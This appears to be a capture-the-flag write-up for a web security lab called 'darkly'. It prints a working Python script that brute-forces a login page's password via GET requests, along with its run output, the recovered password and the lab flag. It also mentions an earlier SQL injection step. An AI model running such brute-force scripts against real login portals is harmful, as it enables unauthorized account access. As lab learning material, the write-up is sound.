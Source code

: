 # Description

Visting the signin page, we could not find an sql injection.

Therefore we decide to bruteforce the signin page.

After we exploited the sql and got the users on the Database. We found the username GetThe.

So we will use this use to bruteforce the login and find the flag.

# Attack

I made a python script that bruteforce the login portal with the username `GetThe`

```pyhton
import requests
import argparse

def brute_force(wordlist_path):
    with open(wordlist_path, 'r') as wordlist:
        for line in wordlist:
            password = line.strip()  # Remove newline characters
            print("[+]Trying {0}".format(password))
            response = requests.get('http://10.14.59.83/index.php?page=signin&username=GetThe&password='+password+'&Login=Login')
            if "WrongAnswer" not in response.text:
                print(f"Password found: {password}")
                return
    print("Password not found in the provided wordlist")

def main():
    parser = argparse.ArgumentParser(description="Simple brute force script")
    parser.add_argument("wordlist", help="Path to the wordlist file")
    args = parser.parse_args()

    brute_force(args.wordlist)

if __name__ == "__main__":
    main()
```
After we run the script it found the password

```bash
*[main][~/projects/darkly/BruteForce/Ressources]$ python3 Bruteforce.py wordlist.txt 
[+]Trying 12345
[+]Trying abc123
[+]Trying password
[+]Trying computer
[+]Trying 123456
[+]Trying tigger
[+]Trying shadow
Password found: shadow
*[main][~/projects/darkly/BruteForce/Ressources]$ 
```

The password is `shadow`

Now we will try to login to using those creds and get the flag.

Finaly
`The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 `
